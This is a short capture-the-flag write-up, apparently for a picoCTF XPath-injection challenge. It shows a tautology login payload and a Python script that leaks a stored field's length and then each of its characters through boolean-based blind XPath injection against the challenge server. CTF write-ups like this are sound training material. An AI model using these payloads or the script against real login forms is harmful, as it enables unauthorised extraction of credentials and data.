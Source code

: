 ### X marks the spot

As the name suggests, thios challenge is X-path injection

play around with some sample queries from cheatsheets, I figured out you get a response "you are on the right path..." when your query resolves as true

this can be confirmed with a username of `' or true() or '`

This indicates we should use boolean based injection to leak the characters of various fields one by one

I scripted this, to first find the length of a given field and then leak each character

```py
#! /usr/bin/env python3

import requests, string

print("Finding len")

user = 3
field = 4

print(f"[+] Using user: {user} field: {field}")

for i in range(100):
    
    print(f"[+] Trying {i}")

    data = {
            "name": f"' or string-length(//user[position()={user}]/child::node()[position()={field}])={i} or '",
            "pass" : ""
    }
    r= requests.post(
        "http://mercury.picoctf.net:28065/", 
        data=data,
        cookies={"PHPSESSID": "bfqb6825j158rhjb111l8v6vca"},
        headers={"Content-Type": "application/x-www-form-urlencoded"}
    )

    if "right" in r.text:

        print(f'[+] found len is {i}')
        l = i
        break

alphabet = string.printable


pw_len = 5

flag = ""
#l = 5
print("[+] Password length: " + str(l)) 
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i)) 
    for al in alphabet:     
        print(f"[+] trying {al.encode()}")
        data = {    
                    "name": f"' or substring( (//user[position()={user}]/child::node()[position()={field}]) ,{i},1)=\"{al}\" or '",
                    "pass" : ""
            }

        r = requests.post(
            "http://mercury.picoctf.net:28065/",
            data=data,
            cookies={"PHPSESSID": "bfqb6825j158rhjb111l8v6vca"},
            headers= {
                "Content-Type": "application/x-www-form-urlencoded",
            }
        )
        if ("right" in r.text): 
            flag += al
            print(b"[+] Flag: " + flag.encode()) 
            break
```